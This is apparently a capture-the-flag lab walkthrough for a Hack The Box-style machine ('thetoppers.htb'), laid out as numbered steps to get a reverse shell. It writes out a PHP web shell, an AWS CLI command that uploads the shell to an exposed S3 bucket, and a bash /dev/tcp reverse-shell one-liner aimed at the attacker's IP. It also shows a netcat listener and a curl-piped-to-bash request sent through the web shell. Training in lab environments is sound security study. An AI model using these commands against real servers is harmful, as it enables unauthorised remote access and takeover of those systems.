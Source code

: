 
## EXAMPLE OF A REVERSE SHELL PROCESS

1. Investigate accessible subdomains using gobuster.
2. Check if there are any files in the subdomain's bucket (e.g., index.php).
3. Create a script (e.g., in PHP if an index.php is found) to execute commands on the page's endpoint.
````bash
<?php system($_GET["cmd"]); ?>
````
4. Add the script that allows us to send commands through the endpoint:
````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````
5. Use `ifconfig` to determine our IP address and create the reverse shell command using https://www.revshells.com:
````bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.142/443 0>&1"' > shell.sh
```` 
6. Open a server on our machine to connect to the reverse shell:
````bash
python3 -m http.server 8080
```` 
7. Use `netcat` to gain access to the reverse shell:
````bash
sudo nc -lvnp 443
````
8. Curl the file containing the reverse shell script on our machine using the exposed IP (in this case, tun0) and port. Create a pipe so that when the curl is performed, it enters bash. (Note: `%20` represents a space character.)
````bash
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.142:8080/shell.sh|bash
````
9. Once executed, access to the target machine should be achieved at the location where `netcat` was running.
